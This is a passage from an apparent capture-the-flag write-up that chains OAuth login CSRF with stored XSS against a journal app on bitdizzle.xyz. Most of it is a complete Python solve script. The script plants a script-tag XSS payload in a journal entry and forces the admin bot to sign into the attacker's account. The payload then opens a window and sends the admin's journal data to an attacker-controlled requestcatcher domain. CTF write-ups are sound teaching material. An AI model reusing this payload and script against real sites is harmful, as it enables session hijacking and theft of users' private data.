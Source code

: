 After a while of looking into bypassing this (even inspecting the Flask source code for unintended bugs and behaviors), I couldn't get past this. If I couldn't exploit the CSRF for the admin user, we could obtain the OAuth code to log in as admin. 

### Signing Admin into Another Account
This is when my teammate had the brilliant idea of signing the admin user into another malicious account on journals.bitdizzle.xyz. It didn't matter if the admin was signed into the admin account on journals.bitdizzle.xyz, as long as they visited a page with a XSS payload on it. So our strategy then turned to 1) making a brand-new account on accounts.bitdizzle.xyz, 2) authenticating to journals.bitdizzle.xyz, 3) leaving a XSS payload in the journal notes for that new account, and 4) making the admin account sign in to the brand-new account on journals.bitdizzle.xyz. 

After that, we could either exfiltrate the OAuth token, or just exfiltrate the content on the admin's original journal account.

### Solve Script
Here is my [automated exploit](solve.py) in Python:

```python
import requests, secrets

ATTACKER_CONTROLLED_DOMAIN = "https://dfsafsdfasdf.requestcatcher.com/"


# this ensures any cookies that we are given are sent in subsequent requests, even if not explicitly set
s = requests.Session()


# logins us into a random account on accounts.bitdizzle.xyz, then authenticates to the journal.bitdizzle.xyz server
r = s.post("https://accounts.bitdizzle.xyz/login",data={"username":secrets.token_hex(8)},allow_redirects=True)
r = s.get("https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&redirect_uri=https%3A%2F%2Fjournal.bitdizzle.xyz%2Foauth_callback")


# XSS payload that will have the admin log back into their account on journal.bitdizzle.xyz in a new window, then have the original window steal the contents (which will be the admin's journal entries) and exfiltrate to our domain
payload = """
</script><script>g = window.open('https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&redirect_uri=https%3A%2F%2Fjournal.bitdizzle.xyz%2Foauth_callback');  g.onload = () => { location.href=`"""+ATTACKER_CONTROLLED_DOMAIN+"""/xss?${JSON.stringify(g.initialProps)}`; }; </script>
"""

# now that we have our payload and are authenticated to journal, we will post our payload as a new entry
r = s.post("https://journal.bitdizzle.xyz/entries/",json={"title":"bad","body":payload})


# we generate another OAuth token for our random account, but disable redirects so we can get the location header without actually visiting it
r = s.get("https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&redirect_uri=https%3A%2F%2Fjournal.bitdizzle.xyz%2Foauth_callback",allow_redirects=False)


# make the admin sign in to the journal server with the OAuth token we just generated, forcing them to run our XSS payload on the main page
x = s.post("https://accounts.bitdizzle.xyz/submit_link",data={"link":r.headers["Location"]})

print("Exploit complete. Please visit your domain to view the journal entries that were exfiltrated.")

```